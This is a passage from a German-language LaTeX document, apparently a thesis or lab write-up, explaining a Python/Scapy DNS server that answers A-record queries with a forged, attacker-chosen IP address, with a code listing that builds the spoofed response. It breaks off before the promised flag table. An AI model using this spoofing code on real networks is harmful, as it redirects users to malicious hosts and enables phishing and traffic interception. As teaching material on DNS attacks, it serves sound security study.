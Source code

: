 \documentclass[10pt,a4paper]{article}
\begin{document}
Als Nächstes wird mit $\mathit{assert}$ sichergestellt, dass zum Einen der OP-Code null ist und zum Anderen es sich um eine A-Record-Anfrage handelt. Dadurch dass der OP-Code null ist, weiß unser Python-Server, dass es sich um eine DNS-Anfrage (Query) handelt. Da das Ziel darin besteht, einem Benutzer (eines Browsers) eine falsche IP zurück zu liefern, muss dieser auch eine IP-Auflösung anfragen. Da es sich bei einer IP-Auflösung um einen sogenannten A-Record handelt, prüft unser DNS-Server ebenfalls den Typ der Anfrage.
\begin{center}
\begin{lstlisting}
    response = DNS(
        id=dns_request.id,
        qr=1, opcode=0, aa=1, tc=0, rd=0, ra=0, z=0, rcode=0,  
        qdcount=1, ancount=1,
        nscount=dns_request.nscount,
        arcount=dns_request.arcount,
        ad=dns_request.ad,
        cd=dns_request.cd,
        qd=DNSQR(qname=dns_request[DNSQR].qname, qtype='A', qclass='IN'),
        an=DNSRR(rrname=dns_request[DNSQR].qname, type='A', rclass='IN', 
        	rdata=fixed_ip, ttl=86400),
        ns=dns_request.ns,
        ar=dns_request.ar
    )

    sock.sendto(bytes(response), addr)
\end{lstlisting}
\end{center}
Anschließend wird eine Antwort gebildet, welche zu der Angefragen Website die IP beinhaltet bzw. in unserem Fall eine vom Angreifer selbst gewählte IP. Um ein gültiges Antwort-Paket zu bilden, müssen mehrere Optionen (sogennante Flags) korrekt gesetzt sein. Die Optionen werden im Folgenden aus Gründen der Einfachheit in tabellarischer Form erläutert:
\end{document}
